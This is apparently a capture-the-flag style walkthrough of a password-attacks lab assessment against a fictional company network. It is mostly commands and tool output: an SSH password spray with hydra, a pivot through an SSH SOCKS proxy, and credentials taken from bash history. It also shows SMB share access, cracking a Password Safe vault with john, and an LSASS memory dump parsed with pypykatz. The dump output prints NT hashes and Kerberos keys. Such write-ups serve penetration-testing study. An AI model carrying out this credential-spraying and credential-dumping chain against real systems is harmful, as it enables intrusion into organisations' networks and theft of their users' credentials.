




# Section 26: Skills Assessment - Password Attacks

Module: 10. Password Attacks

---

## Emuneration
```bash
┌──(jameskaois㉿kali)-[~/Documents/username-anarchy]
└─$ nmap 10.129.234.116          
Starting Nmap 7.98 ( https://nmap.org ) at 2026-08-06 13:24 +0700
Nmap scan report for 10.129.234.116
Host is up (0.23s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh

Nmap done: 1 IP address (1 host up) scanned in 4.45 seconds
```

## Password Attacks the SSH Service

Betty Jayde works at Nexura LLC. We know she uses the password Texas123!@# on multiple websites, and we believe she may reuse it at work.
From this create the `usernames.txt`, I used `username-anarchy`:
```bash
┌──(jameskaois㉿kali)-[~/Documents/username-anarchy]
└─$ ./username-anarchy betty jayde > usernames.txt                                                                                                                                                                                            
┌──(jameskaois㉿kali)-[~/Documents/username-anarchy]
└─$ cat usernames.txt          
betty
bettyjayde
betty.jayde
bettyjay
bettjayd
bettyj
b.jayde
bjayde
jbetty
j.betty
jaydeb
jayde
jayde.b
jayde.betty
bj

```
Brute-force the correct usernames:
```bash
┌──(jameskaois㉿kali)-[~/Documents/username-anarchy]
└─$ hydra -L usernames.txt -p 'Texas123!@#' 10.129.234.116 ssh

Hydra v9.6 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-08-06 13:26:04
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 15 tasks per 1 server, overall 15 tasks, 15 login tries (l:15/p:1), ~1 try per task
[DATA] attacking ssh://10.129.234.116:22/
[22][ssh] host: 10.129.234.116   login: jbetty   password: Texas123!@#
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2026-08-06 13:26:13
```
## SSH as `jbetty`
```bash
┌──(jameskaois㉿kali)-[~/Documents/username-anarchy]
└─$ ssh jbetty@10.129.234.116       
# ...
jbetty@DMZ01:~$ 
jbetty@DMZ01:~$ ls
jbetty@DMZ01:~$ nmap 172.16.119.7

Command 'nmap' not found, but can be installed with:

snap install nmap  # version 7.95, or
apt  install nmap  # version 7.80+dfsg1-2ubuntu0.1

See 'snap info nmap' for additional versions.
```
Since on the target machine doesn't have the needed tools, so we will create SOCKS proxy with `-D`.
```bash
┌──(jameskaois㉿kali)-[~/Documents/username-anarchy]
└─$ ssh -D 9999 jbetty@10.129.234.116    
```
Then Nmap the 3 internal machines:
```bash
┌──(jameskaois㉿kali)-[~/Documents/username-anarchy]
└─$ proxychains4 nmap 172.16.119.7
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/aarch64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
Starting Nmap 7.98 ( https://nmap.org ) at 2026-08-06 13:36 +0700
Nmap scan report for 172.16.119.7
Host is up (0.00052s latency).
All 1000 scanned ports on 172.16.119.7 are in ignored states.
Not shown: 1000 filtered tcp ports (no-response)

Nmap done: 1 IP address (1 host up) scanned in 4.74 seconds
                                                                                                
┌──(jameskaois㉿kali)-[~/Documents/username-anarchy]
└─$ proxychains4 nmap 172.16.119.10
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/aarch64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
Starting Nmap 7.98 ( https://nmap.org ) at 2026-08-06 13:36 +0700
Nmap scan report for 172.16.119.10
Host is up (0.0017s latency).
All 1000 scanned ports on 172.16.119.10 are in ignored states.
Not shown: 1000 filtered tcp ports (no-response)

Nmap done: 1 IP address (1 host up) scanned in 4.66 seconds
                                                                                                
┌──(jameskaois㉿kali)-[~/Documents/username-anarchy]
└─$ proxychains4 nmap 172.16.119.11
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/aarch64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
Starting Nmap 7.98 ( https://nmap.org ) at 2026-08-06 13:36 +0700
Nmap scan report for 172.16.119.11
Host is up (0.0027s latency).
All 1000 scanned ports on 172.16.119.11 are in ignored states.
Not shown: 1000 filtered tcp ports (no-response)

Nmap done: 1 IP address (1 host up) scanned in 4.67 seconds
```
## Lateral Movement on `172.16.119.13`
```bash
jbetty@DMZ01:~$ ifconfig
ens160: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.129.234.116  netmask 255.255.0.0  broadcast 10.129.255.255
        inet6 dead:beef::250:56ff:fe8a:dca1  prefixlen 64  scopeid 0x0<global>
        inet6 fe80::250:56ff:fe8a:dca1  prefixlen 64  scopeid 0x20<link>
        ether 00:50:56:8a:dc:a1  txqueuelen 1000  (Ethernet)
        RX packets 7296  bytes 546808 (546.8 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 2056  bytes 184298 (184.2 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

ens192: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.16.119.13  netmask 255.255.255.0  broadcast 172.16.119.255
        inet6 fe80::250:56ff:fe8a:1a53  prefixlen 64  scopeid 0x20<link>
        ether 00:50:56:8a:1a:53  txqueuelen 1000  (Ethernet)
        RX packets 577  bytes 37552 (37.5 KB)
        RX errors 0  dropped 8  overruns 0  frame 0
        TX packets 28  bytes 2336 (2.3 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 1607  bytes 126141 (126.1 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 1607  bytes 126141 (126.1 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

jbetty@DMZ01:~$ ls -la
total 32
drwxr-xr-x 4 jbetty jbetty 4096 Jun  2  2025 .
drwxr-xr-x 4 root   root   4096 May 30  2025 ..
-rw-r--r-- 1 jbetty jbetty 2165 Aug  6 06:29 .bash_history
-rw-r--r-- 1 jbetty jbetty  220 Apr 29  2025 .bash_logout
-rw-r--r-- 1 jbetty jbetty 3771 Apr 29  2025 .bashrc
drwx------ 2 jbetty jbetty 4096 May 30  2025 .cache
drwxrwxr-x 3 jbetty jbetty 4096 May 30  2025 .local
-rw-r--r-- 1 jbetty jbetty  807 Apr 29  2025 .profile
jbetty@DMZ01:~$ cat .bash_history
cd ~/projects
ls
git status
git pull origin main
vim README.md
cat ~/.bashrc
sudo apt update
sudo apt upgrade -y
clear
cd ~/Downloads
# ...
```
In `.bash_history` there is a really useful command: `sshpass -p "dealer-screwed-gym1" ssh hwilliam@file01`
Found credentials `hwilliam:dealer-screwed-gym1` for `file01`, as from the description `file01` has IP `172.16.119.7`.

```bash
┌──(jameskaois㉿kali)-[~/Documents/username-anarchy]
└─$ proxychains4 nmap -p 53,88,135,389,445,636,3268,3269 172.16.119.10
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/aarch64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
Starting Nmap 7.98 ( https://nmap.org ) at 2026-08-06 13:40 +0700
Nmap scan report for 172.16.119.10
Host is up (0.00023s latency).

PORT     STATE    SERVICE
53/tcp   filtered domain
88/tcp   filtered kerberos-sec
135/tcp  filtered msrpc
389/tcp  filtered ldap
445/tcp  filtered microsoft-ds
636/tcp  filtered ldapssl
3268/tcp filtered globalcatLDAP
3269/tcp filtered globalcatLDAPssl

Nmap done: 1 IP address (1 host up) scanned in 1.83 seconds
```
`file01` is a domain controller for sure, but firewalls block us from scanning the services inside.

## Exploiting `file01`
```bash
┌──(jameskaois㉿kali)-[~/Documents/username-anarchy]
└─$ proxychains4 smbclient //172.16.119.10/HR -U 'nexura.htb/hwilliam'
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/aarch64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] Strict chain  ...  127.0.0.1:9999  ...  172.16.119.10:445  ...  OK
Password for [NEXURA.HTB\hwilliam]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Apr 29 23:08:28 2025
  ..                                  D        0  Tue Apr 29 23:08:28 2025
  2024                                D        0  Tue Apr 29 23:08:16 2025
  2025                                D        0  Tue Apr 29 23:07:24 2025
  Archive                             D        0  Tue Apr 29 23:10:24 2025

                5056511 blocks of size 4096. 1581816 blocks available
smb: \> cd Archive\
smb: \Archive\> ls
  .                                   D        0  Tue Apr 29 23:10:24 2025
  ..                                  D        0  Tue Apr 29 23:10:24 2025
  Code of Conduct_OLD.xlsx            A    29380  Tue Apr 29 23:02:27 2025
  Company presentation OLD.ppt        A   912384  Tue Apr 29 23:02:52 2025
  Covid 19 Policy.ppt                 A   912384  Tue Apr 29 23:02:52 2025
  Employee Roster 2023.xlsx           A    13246  Tue Apr 29 23:02:30 2025
  Employee-Passwords_OLD.plk          A       48  Tue Apr 29 22:13:43 2025
  Employee-Passwords_OLD.psafe3       A     1080  Tue Apr 29 22:09:57 2025
  Employee-Passwords_OLD_011.ibak      A      856  Tue Apr 29 22:10:02 2025
  Employee-Passwords_OLD_012.ibak      A      904  Tue Apr 29 22:10:04 2025
  Employee-Passwords_OLD_013.ibak      A      952  Tue Apr 29 22:10:07 2025
  Employee_handbook_2025.doc          A    26069  Tue Apr 29 23:02:39 2025
  Exit interview Questions.docx       A    34375  Tue Apr 29 23:01:34 2025
  HR Audit Guide ARCHIVE.docx         A    34375  Tue Apr 29 23:01:34 2025
  HR Budget Forecast 2026.xlsx        A    32924  Tue Apr 29 23:02:28 2025
  HR Policies and Procedures.docx      A   120515  Tue Apr 29 23:01:34 2025
  HRIS System Training.xlsx           A    29380  Tue Apr 29 23:02:27 2025
  Interview Questions Template.doc      A    32768  Tue Apr 29 23:02:38 2025
  Manager Onboarding Program.ppt      A   530432  Tue Apr 29 23:02:52 2025
  Offboarding Checklist.docx          A  1311881  Tue Apr 29 23:01:35 2025
  Offer Letter Template_OLD.docx      A   120515  Tue Apr 29 23:01:34 2025
  Password Policy OUTDATED.doc        A    32768  Tue Apr 29 23:02:38 2025
  PTO Tracking Sheet OLD.ppt          A  1028096  Tue Apr 29 23:02:49 2025
  Temporary Contractor List_OLD.xlsx      A    32924  Tue Apr 29 23:02:28 2025

                5056511 blocks of size 4096. 1581816 blocks available
smb: \Archive\> get Employee-Passwords_OLD.psafe3
```
However `Employee-Passwords_OLD.psafe3` is locked with a password. Crack it by using `pwsafe2john`.
```bash
┌──(jameskaois㉿kali)-[~/Documents/username-anarchy]
└─$ pwsafe2john Employee-Passwords_OLD.psafe3 > hashes.txt
                                                                                                
┌──(jameskaois㉿kali)-[~/Documents/username-anarchy]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt                 
Using default input encoding: UTF-8
Loaded 1 password hash (pwsafe, Password Safe [SHA256 128/128 ASIMD 4x])
Cost 1 (iteration count) is 262144 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:48 0.05% (ETA: 2026-08-07 18:23) 0g/s 127.7p/s 127.7c/s 127.7C/s horoscope..whitetiger
0g 0:00:01:05 0.06% (ETA: 2026-08-07 20:36) 0g/s 124.6p/s 124.6c/s 124.6C/s total90..1asshole
michaeljackson   (Employee-Passwords_OLD)     
1g 0:00:01:21 DONE (2026-08-06 14:01) 0.01227g/s 125.6p/s 125.6c/s 125.6C/s total90..1asshole
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

## Open `.psafe3` file
```bash
┌──(jameskaois㉿kali)-[~/Documents/username-anarchy]
└─$ sudo apt install passwordsafe
┌──(jameskaois㉿kali)-[~/Documents/username-anarchy]
└─$ pwsafe Employee-Passwords_OLD.psafe3
```




Credentials found:
```
jbetty:xiao-nicer-wheels5
bdavid:caramel-cigars-reply1
stom:fails-nibble-disturb4
hwilliam:warned-wobble-occur8
```

## Lateral Movement `JUMP01`
RDP as one of the user:
```bash
┌──(jameskaois㉿kali)-[~/Documents/username-anarchy]
└─$ proxychains4 xfreerdp /v:172.16.119.7 /d:nexura.htb /u:bdavid /p:caramel-cigars-reply1 /dynamic-resolution /cert:ignore +clipboard /sound:sys:pulse
```

Task manager method:
1. Open Task Manager
2. Select the Processes tab
3. Find and right click the Local Security Authority Process
4. Select Create dump file

Got `lsass.DMP`

## Transferring files from `JUMP01` to `DMZ01` to our machine
RDP again to the machine with drive:
```bash
┌──(jameskaois㉿kali)-[~/Documents/username-anarchy]
└─$ proxychains4 xfreerdp /v:172.16.119.7 /d:nexura.htb /u:bdavid /p:caramel-cigars-reply1 /dynamic-resolution /cert:ignore +clipboard /sound:sys:pulse /drive:kali,/home/jameskaois/loot
```
In Powershell:
```powershell
PS C:\Users\bdavid\AppData\Local\Temp> dir \\tsclient\kali
PS C:\Users\bdavid\AppData\Local\Temp> copy C:\Users\bdavid\AppData\Local\Temp\lsass.DMP \\tsclient\kali
PS C:\Users\bdavid\AppData\Local\Temp> dir \\tsclient\kali


    Directory: \\tsclient\kali


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         8/6/2026   2:35 AM       50342581 lsass.DMP


PS C:\Users\bdavid\AppData\Local\Temp>
```
## Crack the `lsass.DMP`
```bash
┌──(jameskaois㉿kali)-[~]
└─$ cd /home/jameskaois/loot                         
                                                                                                                                                                                                   
┌──(jameskaois㉿kali)-[~/loot]
└─$ ls
lsass.DMP
                                                                                                                                                                                                   
┌──(jameskaois㉿kali)-[~/loot]
└─$ pypykatz lsa minidump lsass.DMP                       

INFO:pypykatz:Parsing file lsass.DMP
FILE: ======== lsass.DMP =======
== LogonSession ==
authentication_id 2107927 (202a17)
session_id 3
username DWM-3
domainname Window Manager
logon_server 
logon_time 2026-08-06T07:28:18.159914+00:00
sid S-1-5-90-0-3
luid 2107927
        == MSV ==
                Username: JUMP01$
                Domain: NEXURA
                LM: NA
                NT: 173a6112481af736c28f0d84d0a4d1a9
                SHA1: ae15218a2c7769975bcacef919c2c834e021be62
                DPAPI: 0000000000000000000000000000000000000000
        == WDIGEST [202a17]==
                username JUMP01$
                domainname NEXURA
                password None
                password (hex)
        == Kerberos ==
                Username: JUMP01$
                Domain: nexura.htb
                Password: db00a971098b6c2d81b32564701a2fee28198152a30d44d79a7659e00d03e3f77cbda46f2c650921223c5825cbf287143bec358f191f20e04c33011819569d1310cf2fe828868577285c3b6ff6752a205f90426c31858d6571f5536fd82134e1dc0834117225715b8dffbc209d540a9cc424262574e5cbf269f8872dd7f10c10407df7e3fd3bcdf0c52d4c45afac01a994c6b176386fce561f6a1ce6797ae194876650dadcc0178712d237bcddfa80bcb87a318c431630efd3df36974012628d330012a2caa3af5d80c2ba450bcf1f08e1990b4e4f6200c90dad28f87ec233016c504010f82ca56ed6ce2ac6e34332f6
                password (hex)db00a971098b6c2d81b32564701a2fee28198152a30d44d79a7659e00d03e3f77cbda46f2c650921223c5825cbf287143bec358f191f20e04c33011819569d1310cf2fe828868577285c3b6ff6752a205f90426c31858d6571f5536fd82134e1dc0834117225715b8dffbc209d540a9cc424262574e5cbf269f8872dd7f10c10407df7e3fd3bcdf0c52d4c45afac01a994c6b176386fce561f6a1ce6797ae194876650dadcc0178712d237bcddfa80bcb87a318c431630efd3df36974012628d330012a2caa3af5d80c2ba450bcf1f08e1990b4e4f6200c90dad28f87ec233016c504010f82ca56ed6ce2ac6e34332f6
                AES128 Key: 173a6112481af736c28f0d84d0a4d1a9
                AES256 Key: 8a4c6459685562e18587d13d29dfd948738e2a02eb133d6f81e82b5691816808
        == WDIGEST [202a17]==
                username JUMP01$
                domainname NEXURA
                password None
                password (hex)

== LogonSession ==
authentication_id 246561 (3c321)
session_id 2
username DWM-2
domainname Window Manager
logon_server 
logon_time 2026-08-06T06:17:32.322851+00:00
sid S-1-5-90-0-2
luid 246561
        == MSV ==
                Username: JUMP01$
                Domain: NEXURA
                LM: NA
                NT: 7bef0ee0b472d2c5805921324525f321
                SHA1: 6158a1877c4157ed624eb5c4d717e237525bbef1
                DPAPI: 0000000000000000000000000000000000000000
        == WDIGEST [3c321]==
                username JUMP01$
                domainname NEXURA
                password None
                password (hex)
        == Kerberos ==
                Username: JUMP01$
                Domain: nexura.htb
                Password: 333f478788ef02f9db68be04ae0c7a447a3e6534e6e012cc1edc04497ec66014630dbcaa9721d6a6217b00032890d98d52dc222a4bbc661fd5b71ffcf383a1af870724769b22800f0f03a402a9b5379c24166f63ac32b933811e57e029921067d81bcc6581b7ed924d66bd4cd6371a8b55abd571979cd500b23cb83d76d5e24241e953872ee69bf0172f57e85858d1f46626501e6fac76ef4cf71e1635c28124a5f6ac2f702a68e17836ab52d70d47f3d4dc3008c6fc7646c008128f66bd3b6e717933302039845feec4677add12b6edadd935ea406d051e0e49f18c83e9600b24d68c7de30399357c10918b7b3c4756
                password (hex)333f478788ef02f9db68be04ae0c7a447a3e6534e6e012cc1edc04497ec66014630dbcaa9721d6a6217b00032890d98d52dc222a4bbc661fd5b71ffcf383a1af870724769b22800f0f03a402a9b5379c24166f63ac32b933811e57e029921067d81bcc6581b7ed924d66bd4cd6371a8b55abd571979cd500b23cb83d76d5e24241e953872ee69bf0172f57e85858d1f46626501e6fac76ef4cf71e1635c28124a5f6ac2f702a68e17836ab52d70d47f3d4dc3008c6fc7646c008128f66bd3b6e717933302039845feec4677add12b6edadd935ea406d051e0e49f18c83e9600b24d68c7de30399357c10918b7b3c4756
                AES128 Key: 7bef0ee0b472d2c5805921324525f321
                AES256 Key: ff3bf7975dbcbe960805376e92c0a68e98071d51d007077a8f74297ebe6c9389
        == WDIGEST [3c321]==
                username JUMP01$
                domainname NEXURA
                password None
                password (hex)

== LogonSession ==
authentication_id 69286 (10ea6)
session_id 1
username DWM-1
domainname Window Manager
logon_server 
logon_time 2026-08-06T06:16:47.019537+00:00
sid S-1-5-90-0-1
luid 69286
        == MSV ==
                Username: JUMP01$
                Domain: NEXURA
                LM: NA
                NT: 7bef0ee0b472d2c5805921324525f321
                SHA1: 6158a1877c4157ed624eb5c4d717e237525bbef1
                DPAPI: 0000000000000000000000000000000000000000
        == WDIGEST [10ea6]==
                username JUMP01$
                domainname NEXURA
                password None
                password (hex)
        == Kerberos ==
                Username: JUMP01$
                Domain: nexura.htb
                Password: 333f478788ef02f9db68be04ae0c7a447a3e6534e6e012cc1edc04497ec66014630dbcaa9721d6a6217b00032890d98d52dc222a4bbc661fd5b71ffcf383a1af870724769b22800f0f03a402a9b5379c24166f63ac32b933811e57e029921067d81bcc6581b7ed924d66bd4cd6371a8b55abd571979cd500b23cb83d76d5e24241e953872ee69bf0172f57e85858d1f46626501e6fac76ef4cf71e1635c28124a5f6ac2f702a68e17836ab52d70d47f3d4dc3008c6fc7646c008128f66bd3b6e717933302039845feec4677add12b6edadd935ea406d051e0e49f18c83e9600b24d68c7de30399357c10918b7b3c4756
                password (hex)333f478788ef02f9db68be04ae0c7a447a3e6534e6e012cc1edc04497ec66014630dbcaa9721d6a6217b00032890d98d52dc222a4bbc661fd5b71ffcf383a1af870724769b22800f0f03a402a9b5379c24166f63ac32b933811e57e029921067d81bcc6581b7ed924d66bd4cd6371a8b55abd571979cd500b23cb83d76d5e24241e953872ee69bf0172f57e85858d1f46626501e6fac76ef4cf71e1635c28124a5f6ac2f702a68e17836ab52d70d47f3d4dc3008c6fc7646c008128f66bd3b6e717933302039845feec4677add12b6edadd935ea406d051e0e49f18c83e9600b24d68c7de30399357c10918b7b3c4756
                AES128 Key: 7bef0ee0b472d2c5805921324525f321
                AES256 Key: ff3bf7975dbcbe960805376e92c0a68e98071d51d007077a8f74297ebe6c9389
        == WDIGEST [10ea6]==
                username JUMP01$
                domainname NEXURA
                password None
                password (hex)

== LogonSession ==
authentication_id 69260 (10e8c)
session_id 1
username DWM-1
domainname Window Manager
logon_server 
logon_time 2026-08-06T06:16:47.019537+00:00
sid S-1-5-90-0-1
luid 69260
        == MSV ==
                Username: JUMP01$
                Domain: NEXURA
                LM: NA
                NT: 173a6112481af736c28f0d84d0a4d1a9
                SHA1: ae15218a2c7769975bcacef919c2c834e021be62
                DPAPI: 0000000000000000000000000000000000000000
        == WDIGEST [10e8c]==
                username JUMP01$
                domainname NEXURA
                password None
                password (hex)
        == Kerberos ==
                Username: JUMP01$
                Domain: nexura.htb
                Password: db00a971098b6c2d81b32564701a2fee28198152a30d44d79a7659e00d03e3f77cbda46f2c650921223c5825cbf287143bec358f191f20e04c33011819569d1310cf2fe828868577285c3b6ff6752a205f90426c31858d6571f5536fd82134e1dc0834117225715b8dffbc209d540a9cc424262574e5cbf269f8872dd7f10c10407df7e3fd3bcdf0c52d4c45afac01a994c6b176386fce561f6a1ce6797ae194876650dadcc0178712d237bcddfa80bcb87a318c431630efd3df36974012628d330012a2caa3af5d80c2ba450bcf1f08e1990b4e4f6200c90dad28f87ec233016c504010f82ca56ed6ce2ac6e34332f6
                password (hex)db00a971098b6c2d81b32564701a2fee28198152a30d44d79a7659e00d03e3f77cbda46f2c650921223c5825cbf287143bec358f191f20e04c33011819569d1310cf2fe828868577285c3b6ff6752a205f90426c31858d6571f5536fd82134e1dc0834117225715b8dffbc209d540a9cc424262574e5cbf269f8872dd7f10c10407df7e3fd3bcdf0c52d4c45afac01a994c6b176386fce561f6a1ce6797ae194876650dadcc0178712d237bcddfa80bcb87a318c431630efd3df36974012628d330012a2caa3af5d80c2ba450bcf1f08e1990b4e4f6200c90dad28f87ec233016c504010f82ca56ed6ce2ac6e34332f6
                AES128 Key: 173a6112481af736c28f0d84d0a4d1a9
                AES256 Key: 8a4c6459685562e18587d13d29dfd948738e2a02eb133d6f81e82b5691816808
        == WDIGEST [10e8c]==
                username JUMP01$
                domainname NEXURA
                password None
                password (hex)

== LogonSession ==
authentication_id 996 (3e4)
session_id 0
username JUMP01$
domainname NEXURA
logon_server 
logon_time 2026-08-06T06:16:46.738431+00:00
sid S-1-5-20
luid 996
        == MSV ==
                Username: JUMP01$
                Domain: NEXURA
                LM: NA
                NT: 173a6112481af736c28f0d84d0a4d1a9
                SHA1: ae15218a2c7769975bcacef919c2c834e021be62
                DPAPI: 0000000000000000000000000000000000000000
        == WDIGEST [3e4]==
                username JUMP01$
                domainname NEXURA
                password None
                password (hex)
        == Kerberos ==
                Username: jump01$
                Domain: NEXURA.HTB
                Password: db00a971098b6c2d81b32564701a2fee28198152a30d44d79a7659e00d03e3f77cbda46f2c650921223c5825cbf287143bec358f191f20e04c33011819569d1310cf2fe828868577285c3b6ff6752a205f90426c31858d6571f5536fd82134e1dc0834117225715b8dffbc209d540a9cc424262574e5cbf269f8872dd7f10c10407df7e3fd3bcdf0c52d4c45afac01a994c6b176386fce561f6a1ce6797ae194876650dadcc0178712d237bcddfa80bcb87a318c431630efd3df36974012628d330012a2caa3af5d80c2ba450bcf1f08e1990b4e4f6200c90dad28f87ec233016c504010f82ca56ed6ce2ac6e34332f6
                password (hex)db00a971098b6c2d81b32564701a2fee28198152a30d44d79a7659e00d03e3f77cbda46f2c650921223c5825cbf287143bec358f191f20e04c33011819569d1310cf2fe828868577285c3b6ff6752a205f90426c31858d6571f5536fd82134e1dc0834117225715b8dffbc209d540a9cc424262574e5cbf269f8872dd7f10c10407df7e3fd3bcdf0c52d4c45afac01a994c6b176386fce561f6a1ce6797ae194876650dadcc0178712d237bcddfa80bcb87a318c431630efd3df36974012628d330012a2caa3af5d80c2ba450bcf1f08e1990b4e4f6200c90dad28f87ec233016c504010f82ca56ed6ce2ac6e34332f6
                AES128 Key: 173a6112481af736c28f0d84d0a4d1a9
                AES256 Key: 477ad74cfadc8467a8daa778f9b04281c4f743bf4f425d5e430564c03294235c
        == WDIGEST [3e4]==
                username JUMP01$
                domainname NEXURA
                password None
                password (hex)

== LogonSession ==
authentication_id 39750 (9b46)
session_id 0
username UMFD-0
domainname Font Driver Host
logon_server 
logon_time 2026-08-06T06:16:46.363291+00:00
sid S-1-5-96-0-0
luid 39750
        == MSV ==
                Username: JUMP01$
                Domain: NEXURA
                LM: NA
